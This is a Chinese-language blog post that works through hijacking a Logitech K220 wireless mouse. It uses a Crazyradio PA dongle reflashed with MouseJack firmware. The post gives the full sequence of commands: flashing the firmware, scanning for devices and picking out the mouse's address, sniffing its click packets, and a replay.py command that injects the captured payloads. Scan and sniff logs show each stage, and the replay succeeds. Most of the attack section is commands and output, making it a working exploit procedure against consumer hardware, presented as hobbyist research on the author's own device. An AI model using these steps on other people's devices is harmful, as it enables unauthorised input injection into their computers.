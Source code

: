 ```yaml
---
layout:		post
title:		利用Crazyradio劫持无线鼠标&重放攻击
author:		wooy0ung
tags:		wireless
category:  	iot
---
```


- 目录
{:toc #markdown-toc}

>说明：  
>通过Crazyradio + MouseJack项目可以简答地对2.4GHz无线设备的工作频段进行嗅探，分析传输信号，进一步重放攻击。  
>环境：  
>Kali Linux 2018.2 amd64  
>设备:  
>1. Crazyradio PA 一只  
>2. 罗技K220键鼠一套  
<!-- more -->
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x001.png)


Crazyradio接入，刚买的设备id为1915:7777
```
$ lsusb
```
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x002.png)

安装依赖
```
$ sudo apt install sdcc binutils python python-pip
$ pip install pyusb
$ pip install platformio
```

刷入crazyradio pa固件
```
$ git clone https://github.com/bitcraze/crazyradio-firmware
$ cd crazyradio-firmware
$ python usbtools/launchBootloader.py	# 有时候会报错，多尝试几次
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x003.png)
显示这样，就是bootloader启动成功

烧录固件
```
$ wget https://github.com/bitcraze/crazyradio-firmware/releases/download/0.53/cradio-pa-0.53.bin
$ python usbtools/nrfbootload.py flash cradio-pa-0.53.bin
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x004.png)
烧录成功，重新插拔设备

这时设备id为1915:0101
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x005.png)

编译MouseJack项目
```
$ git clone --recursive https://github.com/RFStorm/mousejack.git
$ cd mousejack
$ make
$ make install
```

![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x006.png)
刷入成功

重新插拔设备，现在id为1915:0102
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x007.png)

扫描一下附近的无线设备
```
$ cd ./nrf-research-firmware/tools
$ ./nrf24-scanner.py
[2018-07-04 20:33:04.913]  74  10  62:10:91:08:A4  00:C2:00:00:FF:6F:00:00:00:D0
[2018-07-04 20:33:04.926]  74  10  62:10:91:08:A4  00:C2:00:00:00:10:00:00:00:2E
[2018-07-04 20:33:04.934]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:04.960]  74  10  62:10:91:08:A4  00:C2:00:00:00:20:00:00:00:1E
[2018-07-04 20:33:07.318]  14  10  62:10:91:08:A4  00:C2:00:00:FC:3F:00:00:00:03
[2018-07-04 20:33:15.953]  14   0  62:10:91:08:A4  
[2018-07-04 20:33:17.732]  31  10  62:10:91:08:A4  00:C2:00:00:F1:DF:FE:00:00:70
[2018-07-04 20:33:21.906]  70   0  62:10:91:08:A4  
[2018-07-04 20:33:22.301]  74   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:33:32.628]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:32.711]   8   0  62:10:91:08:A4  
[2018-07-04 20:33:42.244]  17  10  62:10:91:08:A4  00:C2:00:00:FF:0F:00:00:00:30
[2018-07-04 20:33:42.256]  17   0  62:10:91:08:A4  
[2018-07-04 20:33:42.299]  17  10  62:10:91:08:A4  00:C2:00:00:FE:0F:00:00:00:31
[2018-07-04 20:33:50.347]  11  10  62:10:91:08:A4  00:C2:00:00:0D:20:FF:00:00:12
[2018-07-04 20:33:50.974]  17  10  62:10:91:08:A4  00:C2:00:00:DA:0F:00:00:00:55
[2018-07-04 20:34:07.962]  14  10  62:10:91:08:A4  00:C2:00:00:01:E0:FF:00:00:5E
[2018-07-04 20:34:07.970]  14  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:07.998]  14  10  62:10:91:08:A4  00:C2:00:00:01:D0:FF:00:00:6E
[2018-07-04 20:34:08.247]  17  10  62:10:91:08:A4  00:C2:00:00:02:E0:FF:00:00:5D
[2018-07-04 20:34:15.651]   5  10  6B:AD:EE:72:B4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:34:16.054]   8   0  6B:AD:EE:72:B4  
[2018-07-04 20:34:35.945]  32   0  62:10:91:08:A4  
[2018-07-04 20:34:36.244]  35  10  62:10:91:08:A4  00:C2:00:00:04:10:00:00:00:2A
```
通过对无线设备进行操作，可以嗅探出设备的MAC地址信息

我这里有一套存在漏洞的罗技K220键鼠，可以确定鼠标的MAC地址是62:10:91:08:A4

现在有针对性嗅探鼠标，注意每次重新执行脚本都需要插拔设备
```
$ ./nrf24-sniffer.py -a 62:10:91:08:A4
[2018-07-04 20:43:44.083]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.090]   5  10  62:10:91:08:A4  00:C2:00:00:05:D0:FF:00:00:6A
[2018-07-04 20:43:44.098]   5  10  62:10:91:08:A4  00:C2:00:00:02:00:00:00:00:3C
[2018-07-04 20:43:44.105]   5  10  62:10:91:08:A4  00:C2:00:00:03:F0:FF:00:00:4C
[2018-07-04 20:43:44.113]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.191]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.195]   5  10  62:10:91:08:A4  00:C2:00:00:FF:2F:00:00:00:10
[2018-07-04 20:43:44.205]   5  10  62:10:91:08:A4  00:C2:00:00:FA:3F:00:00:00:05
[2018-07-04 20:43:44.209]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.223]   5  10  62:10:91:08:A4  00:C2:00:00:FB:5F:00:00:00:E4
[2018-07-04 20:43:44.226]   5  10  62:10:91:08:A4  00:C2:00:00:FA:6F:00:00:00:D5
[2018-07-04 20:43:44.234]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.245]   5  10  62:10:91:08:A4  00:C2:00:00:FB:8F:00:00:00:B4
[2018-07-04 20:43:44.258]   5  10  62:10:91:08:A4  00:C2:00:00:F8:7F:00:00:00:C7
[2018-07-04 20:43:44.261]   5  10  62:10:91:08:A4  00:C2:00:00:F9:6F:00:00:00:D6
[2018-07-04 20:43:44.268]   5  10  62:10:91:08:A4  00:C2:00:00:F7:5F:00:00:00:E8
[2018-07-04 20:43:44.279]   5  10  62:10:91:08:A4  00:C2:00:00:F8:6F:00:00:00:D7
[2018-07-04 20:43:44.287]   5  10  62:10:91:08:A4  00:C2:00:00:FB:3F:00:00:00:04
[2018-07-04 20:43:44.295]   5  10  62:10:91:08:A4  00:C2:00:00:F9:5F:00:00:00:E6
[2018-07-04 20:43:44.303]   5  10  62:10:91:08:A4  00:C2:00:00:FB:2F:00:00:00:14
[2018-07-04 20:43:44.310]   5  10  62:10:91:08:A4  00:C2:00:00:FF:1F:00:00:00:20
[2018-07-04 20:43:44.318]   5  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 20:43:44.397]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.474]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.551]   5   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 20:43:44.631]   5   5  62:10:91:08:A4  00:40:00:55:6B
```
通过移动或者点击鼠标，就能嗅探到大量数据

点击鼠标右键，持续嗅探
```
# 信道
4 5 7 13 16 17 31 40 43 65 73

# 右键按下
[2018-07-04 23:22:22.865]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:22:22.873]   4  10  62:10:91:08:A4  00:C2:02:00:00:00:00:00:00:3C
[2018-07-04 23:22:22.882]   4  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C

# 右键松开
[2018-07-04 23:23:16.102]  13  10  62:10:91:08:A4  00:C2:00:00:00:00:00:00:00:3E
[2018-07-04 23:23:16.109]  13  10  62:10:91:08:A4  00:4F:00:00:55:00:00:00:00:5C
[2018-07-04 23:23:16.185]  13   5  62:10:91:08:A4  00:40:00:55:6B
[2018-07-04 23:23:16.263]  13  10  62:10:91:08:A4  00:4F:00:03:70:00:00:00:00:3E
```

重放攻击以验证猜测
```
$ python replay.py -c 4 5 7 13 16 17 31 40 43 65 73 -a 62:10:91:08:A4 -d 00:4F:00:00:55:00:00:00:00:5C 00:C2:02:00:00:00:00:00:00:3C 00:4F:00:00:55:00:00:00:00:5C
Trying address 62:10:91:08:A4 on channel 13
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 40
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 4
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 16
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
Trying address 62:10:91:08:A4 on channel 43
Tring send payload 00:4F:00:00:55:00:00:00:00:5C
Tring send payload 00:C2:02:00:00:00:00:00:00:3C
```

成功出现了右键点击现象，重放成功
![](/assets/img/iot/2018-07-04-mousejack-hacking-with-crazyradio/0x008.png)